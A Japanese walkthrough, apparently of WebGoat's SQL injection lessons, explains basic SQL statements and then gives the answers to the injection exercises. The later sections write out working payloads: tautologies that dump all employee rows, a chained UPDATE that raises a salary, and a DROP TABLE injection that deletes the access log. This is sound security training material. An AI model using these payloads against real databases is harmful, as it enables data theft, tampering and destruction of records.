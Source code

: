# (A1)Injection 節の問題の回答
DBとそれを扱うためのSQLの基本的な知識が要求されます。私はあまりDBに関して詳しいほうではないのでわからない部分は調べながら回答しました。
SQLInjectionという攻撃であっても、使う知識自体は意外と基本的なモノが多いことに驚きました。

## 2 What is SQL?
まずはSQLの基本の確認から。Bob Francoさんのdepartmentを確認しましょう。
ここではAdmin権限をすでに得ているため普通のQueryを組み立てます
```SQL
SELECT department FROM employees WHERE first_name = 'Bob' and last_name = 'Franco';
```
Tableの内容も見えているので、Bob Franco氏のdepartmentを抽出してクリア。
このテーブルの内容ならand last name = 'Franco'はなしでも動くとは思いますが一応記述します。

## 3 Data Manipulation Language 
上と同じくAdmin権限は持っているので、言われた通りTableを書き換えます
Tobi BarnettさんのdepartmentをSalesに変更します
```SQL
UPDATE employees SET department = 'Sales' WHERE first_name = 'Tobi' AND last_name = 'Barnett';
```
UPDATE文を使ってemployeesテーブル内の指定した行の該当データを書き換えました

## 4 Data Definition Language
employees Tableに"phone"というVARCHAR(20)のcolumn(列)を追加しましょう
```SQL
ALTER TABLE employees ADD phone VARCHAR(20);
```
データ型指定の後、明示的にNULLを示したほうが良い...のか?(DB弱者)

## 5 Data Control Language 
grant_rights Table に対する権限を unauthorized_userに対して与えます
```SQL
GRANT ALL PRIVILEGES ON grant_rights TO unauthorized_user;
```
ALL PRIVILEGESはSELECT,INSERT,DELETE,UPDATEのすべての権限を与えます。
ちなみに、GRANTとは逆に、権限を取り消してアクセスできないようにしたい場合はREVOKEを使用します。構文はほぼ同じです。

## 9 Try It! String SQL injection 
ここからSQLInjectionについての勉強が始まります。まずは練習として選択肢から正しい選択を選んでいきましょう。ページに提示されている説明文を解釈すると、
```SQL
SELECT FROM user_data WHERE first_name = 'John' AND last_name = ' [入力されたデータがここに入る] ';
```
というSQL文が実行されることが示されているので、それをヒントに解いていきましょう。
まず最初の選択肢を **Smith'** にすることで、 last_name = 'Smith' となり、
次にorを選択し、最後に **'1' = '1** を選択すると
```SQL
SELECT FROM user_data WHERE first_name = 'John' AND last_name = 'Smith' or '1' = '1' ;
```
という文章が出来上がり、条件式を左から順番に評価すると常に結果がTRUEとなるのですべてのユーザに関するデータが出力されます

## 10 Try It! Numeric SQL injection
入力フィールドは数字であることが期待されているので、それを考慮したうえで文章を組み立てる必要があります。
最初のフィールド(Login_Count)に**適当な数字**、次のフィールドに **1 or 1 = 1**といったように、適当な数字の後に or 1 = 1 という文を追加することで常にTRUEの条件を成立させることができ、正解となります。この場合組み立てらた文章は以下のようになります
```SQL
SELECT * From user_data WHERE Login_Count = 0 and userid= 1 or 1=1;
```

## 11 Compromising confidentiality with String SQL injection
SQLを用いてテーブル内のほかのemployeesの情報を取得することが目的です。
このページでは自分の名前がJohn Smithであること、現在割り当てられているTAN-(Transaction Authorization number:トランザクション認証番号)Transactionを承認するための使い捨てのワンタイムパスワード-が提示されていますが、これらは無くてもこの問題を解くことができました。
Employee Name のフィールドに **foo** 
Authentication TAN のフィールドに **bar' or '1'='1**
と入力することで、
```SQL
SELECT * FROM employees WHERE last_name = 'foo' AND auth_tan = 'bar' OR '1' = '1';
```
という文章が組み立てられ、条件が常にTRUEとなりすべてのデータを閲覧できます。

## 12 Compromising Integrity with Query chaining
11の結果を見ると、どやらTobi と Bob が私よりもたくさん給料をもらっているらしいことが分かりました。私はもちろん放っておけないらしいので自分の給料を上げることにしたそうです。

Employee Nameフィールドには**foo**を
Authentication TANフィールドには**bar'; UPDATE employees SET salary = 10000000  WHERE first_name = 'John' and last_name = 'Smith**
と入力します。一度エディタで組み上げてから入力したほうがいいですね(1敗)。
これによって以下の2つQueryが実行されると考えられます
```SQL
SELECT * FROM employees WHERE last_name = 'foo' AND auth_tan = 'bar'; 
UPDATE employees SET salary = 10000000  WHERE first_name = 'John' and last_name = 'Smith
```
上のSELECT文はこの問題とあまり関係がなく、問題は下です。
フィールド内に;を追加したことによりQueryが一度終了し、そのあとから新しいQueryを自分で組み立て、実行してsalaryを書き換えています。(Query chaining)
ダイナミック昇給の成功です。良かったですね。

## 13 Compromising Availability
給料を書き換えたことがバレるとまずいのでログを格納するテーブルを完全に削除することにしたようです。ページにはアクションを検索する窓があるのでそこに対してInjectionを行いましょう
アクションの検索では検索する単語が含まれているかどうかの判断にLIKE文が使用されていることが予想でき、Hintには"SELECT * FROM access_log WHERE action LIKE '%" + action + "%'"とあります。actionの中に入力した文字列が入るので、後ろの%を読み飛ばす必要があり、この場合コメントアウト"--"が使えます
**foo';DROP TABLE access_log;--**と検索フィールドに入力することで
```SQL 
SELECT * FROM access_log WHERE action LIKE '%foo';DROP TABLE access_log;--%
```
という文が組み立てられ、Query chainingによってTABLEをDROPすることができます。
ちなみにDROPすると対象のオブジェクトが完全に削除され、ロールバック付加できず表構造も残りません